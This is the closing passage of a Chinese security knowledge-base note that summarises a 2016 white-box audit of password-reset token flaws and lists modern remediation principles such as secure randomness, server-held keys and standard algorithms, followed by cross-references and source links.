| [[cmseasy-7.3.8-code-audit]] / [[zzzcms-v1.7.5-audit]] | 互引 CMS 代码审计实战案例，对比密码重置漏洞在不同框架中的表现形式 | 同类漏洞跨框架模式识别 |
| [[java-deserialization-fundamentals]] / [[spring-boot-devtools-deserialization-rce]] | 互引「反序列化链挖掘方法论」，对比「逻辑漏洞 vs 代码执行漏洞」审计焦点差异 | 漏洞类型方法论迁移 |
| [[security-study-group-methodology]] | 在「实战案例库」增补本文作为「白盒审计入门」标准教学案例 | 理论联系实际产出教学资源 |

---

## 结语

本文作为 301在路上 2016 年技术输出的代表作之一，以**极简的代码量**（不足 50 行核心逻辑）完整展示了**逻辑漏洞挖掘的经典路径**：

1. **从业务流程入手**——密码重置是身份认证体系「最薄弱环节」之一
2. **定位核心数据流**——Token 生成、传输、校验、消费全链路
3. **识别信任边界失效**——服务端信任客户端不可控输入（UA）、信任弱随机源（rand）、信任未初始化配置（PP_KEY）
4. **构造最小化利用链**——字典爆破 / 算法逆向本地计算，无需复杂环境、无需 0day
5. **给出工程化修复方案**——CSPRNG、密钥隔离、标准算法、完整校验、限流审计

八年过去，技术栈从 PHP 5.x 迭代到 PHP 8.x / Java 17+ / Go 1.21+ / Node 20+，框架从原生 MVC 进化到 Laravel / Spring Boot / Gin / NestJS，但**核心安全原则从未改变**：

- **随机数必须不可预测** → `random_bytes()` / `SecureRandom` / `crypto/rand` / `secrets`
- **密钥必须服务端独享** → 环境变量 / KMS / Vault / HSM
- **算法必须标准化** → AES-GCM / ChaCha20-Poly1305 / HMAC-SHA256 / Argon2id
- **状态必须受控** → 有限状态机 / 原子操作 / 幂等设计 / 审计日志

> **「扫描器难以发现逻辑漏洞，所以企业和安全研究者都比较重视这方面的漏洞。」** —— 本文开篇判断在 AI 辅助审计时代依然成立。**逻辑漏洞本质是「业务语义与代码实现的偏离」**，需要理解业务意图的语义分析能力，这是当前自动化工具仍难以完全替代的人类优势领域。

**将本文方法论内化为肌肉记忆，配合现代工具链（CodeQL/IAST/LLM）放大人力效能，才是当下乃至未来代码审计的制高点。**

---

**来源登记**  
- 原文：301在路上微信公众号，2016年8月，《技术分享 | 从白盒审计角度挖掘逻辑漏洞》  
- 链接：http://mp.weixin.qq.com/s?__biz=MzIwMTQ2NzY4NA==&mid=2652521173&idx=1&sn=9d868fe3c2e529c342b2e2f5aa85c0ee  
- 归档来源：[301在路上-201508-202208_063](../sources/301在路上-201508-202208_063.md)  
- 对比参考：本库内 301在路上系列归档、0w1Club培训资料、CMS代码审计案例、每日安全看点工具链演进记录

## 来源

- [301在路上-201508-202208_064](../sources/301在路上-201508-202208_064.md)
